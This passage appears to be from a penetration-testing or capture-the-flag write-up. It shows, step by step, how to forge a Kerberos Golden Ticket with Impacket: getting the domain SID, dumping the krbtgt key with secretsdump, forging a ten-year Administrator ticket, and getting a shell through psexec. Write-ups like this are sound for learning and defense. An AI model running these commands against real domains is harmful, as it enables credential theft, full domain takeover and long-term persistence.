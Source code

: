     -   {{< figure src="/ox-hugo/2025-01-15-082225_.png" >}}


### Creating a Kerberos Golden Ticket: {#creating-a-kerberos-golden-ticket}

-   **Using** `impacket-lookupsid` **to get the Search for the Domain SID**:
    ```shell
    impacket-lookupsid $domain/$user@$machine.$domain -domain-sids -k -no-pass
    ```

    -   {{< figure src="/ox-hugo/2025-01-15-082328_.png" >}}
    -   I store this in the variable `$sid`



-   **Using** `impacket-secretsdump` **to retrieve the** `aeskey` **of the** `krbtgt` **account**:
    ```shell
    impacket-secretsdump $domain/$user@$box -hashes :$hash
    ```

    -   {{< figure src="/ox-hugo/2025-01-15-082620_.png" >}}
    -   I store `krbtgt:aes256` value in the variable `$krbtgt`

-   **Sync our clock to the host using ntpdate**:
    ```shell
    #Using ntpdate
    sudo ntpdate -s $domain

    #Using faketime
    faketime "$(ntpdate -q $domain | cut -d ' ' -f 1,2)"
    ```

-   **Using** `impacket-ticketer` **to create the Golden Ticket**:
    ```shell
    #Using -aeskey
    impacket-ticketer -aesKey $krbtgt -domain-sid $sid -domain $domain Administrator
    ```

-   **Export the ticket to the** `KRB5CCNAME` **Variable**:
    ```shell
    export KRB5CCNAME=./Administrator.ccache
    ```

-   **Verify the ticket is loaded into memory**:
    ```klist
    klist
    ```

    -   {{< figure src="/ox-hugo/2025-01-15-083332_.png" >}}
    -   As we can see this ticket lasts for 10 years, which is better than 10 hours.

-   **Use the ticket for connecting via** `psexec`
    ```shell
    impacket-psexec -k -no-pass $machine.$domain
    ```

    -   {{< figure src="/ox-hugo/2025-01-15-084603_.png" >}}
